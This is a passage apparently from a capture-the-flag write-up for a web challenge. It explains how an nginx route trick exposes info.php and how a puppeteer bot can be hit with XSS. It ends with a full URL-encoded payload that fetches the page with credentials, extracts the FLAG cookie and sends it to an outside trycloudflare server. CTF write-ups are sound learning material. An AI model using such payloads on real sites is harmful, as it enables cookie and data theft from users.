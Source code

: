 ```md
            include fastcgi_params;
            fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
            }
            ```
            - can access `info.php` by using `info.php/index.php` as route.
        - now to somehow leak it using the puppeteer instance.
        - `\` is a valid separator -> this works for the the fetches
        - access from the given url because of cors: `?name=%3Cimg%0Conerror%3D%27fetch(%22info.php\\index.php%22%2C%20%7B%20credentials%3A%20%22include%22%7D)%27%0Csrc=%22%22%3E`
        - wait but the flag is set **AFTER** you go to the site.
        - the browser gets set to `null` after you're done -> you don't have a second chance
        - flow looks like:
            - go to site
            - flag gets set
            - **somehow** fetch `info.php` to leak flag
            - send back to our server
        - this means `TARGET_URL` has to be the challenge instance *again* to view leaked flag?
        - final script:`http://idek-hello.chal.idek.team:1337/?name=%3Cimg%0Conerror%3D%22fetch%28%27info.php%5C%5Cindex.php%27%2C%7Bcredentials%3A%27include%27%7D%29.then%28response%3D%3Eresponse.text%28%29%29.then%28data%3D%3E%7Bdocument.body.innerHTML%3Ddata%3Bfetch%28%27https%3A%5C%5C%5C%5Cbar-fleet-nm-super.trycloudflare.com%5C%5C%27%2BArray.from%28document.getElementsByClassName%28%27e%27%29%29.filter%28item%3D%3Eitem.innerText%3D%3D%3D%27%24_COOKIE%5B%5C%27FLAG%5C%27%5D%27%29%5B0%5D.parentElement.children%5B1%5D.innerText%29%7D%29.catch%28e%3D%3Edocument.body.innerHTML%3De%29%3B%22%0Csrc=%22%22%3E`
        - methodology:
            - bypass nginx config to access `info.php`
            - dump `info.php` to current document
            - fetch flag from the html
            - send a request back to a server
```

Now excuse me, I need a huge nap to recover from all this.
